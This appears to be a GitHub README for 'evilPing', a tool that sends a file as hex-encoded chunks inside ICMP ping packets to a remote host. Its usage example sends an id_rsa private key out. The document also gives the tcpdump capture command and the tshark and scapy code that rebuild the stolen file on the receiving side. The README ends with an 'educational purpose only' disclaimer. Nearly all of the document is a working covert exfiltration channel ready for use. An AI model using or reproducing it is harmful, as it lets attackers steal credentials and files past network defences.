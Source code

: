 # evilPing
This tools will convert the data into hexadecimal and send through ICMP packet in each block. if the connection not stable or any packet failed to send, the script will retry sending the failed data first before go to the next block data

### Usage
```
Usage: ./evilPing.sh <file> <host>
```
Example
```
./evilPing.sh id_rsa 192.168.1.2
```
![Running](img/test.png)

### Listening server for receiving ICMP packet using TCPdump
```
sudo tcpdump -i any -s 0 'icmp' -w evilPing-received.pcap
```
![Listen](img/listen.png)

### Extract data with tshark
```
tshark -r evilPing-received.pcap -T fields -e data -Y "ip.src==192.168.56.1 && icmp.type==8" | tail -n +2 | cut -c 17-48 | xxd -r -p
```
![Result](img/result.png)

### Extract data with scapy
```
#!/usr/bin/env python3

from scapy.all import *

src_ip = '192.168.56.1'
packet = rdpcap('evilPing-received.pcap')
data = b''

for pkt in packet[1:]:
    if pkt[IP].src == src_ip and pkt[ICMP].type == 8:
        data += pkt[Raw].load[16:32]

with open('output', 'wb') as w:
    w.write(data)
```

#### legal disclaimer
This tools is for educational purpose only. usage of evilPing for attacking targets without prior mutual consent is illegal and developers assume no liability and are not responsible for any misuse or damage caused by this program.
